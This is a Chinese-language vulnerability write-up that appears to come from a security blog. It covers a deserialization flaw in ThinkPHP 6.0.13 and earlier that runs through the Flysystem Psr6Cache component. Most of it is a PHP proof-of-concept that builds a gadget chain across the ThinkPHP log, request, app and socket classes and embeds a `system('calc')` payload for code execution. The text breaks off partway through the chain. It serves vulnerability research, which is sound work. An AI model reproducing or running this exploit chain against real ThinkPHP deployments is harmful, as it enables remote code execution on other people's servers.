 ### 影响版本：Thinkphp <= v6.0.13

### 介绍：

攻击者可以通过组件 League\\Flysystem\\Cached\\Storage\\Psr6Cache 包含反序列化漏洞，目前的 Thinkphp6.1.0 以上已经将 filesystem 移除了 因为此处存在好多条反序列化漏洞  
安装和前一篇文章一样，这里为了方便就用上一篇文章的 6.0.12 了

### poc:

```bash
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp){
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp){
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct(){
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct(){
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        public function __construct(){

            $this->config = [
```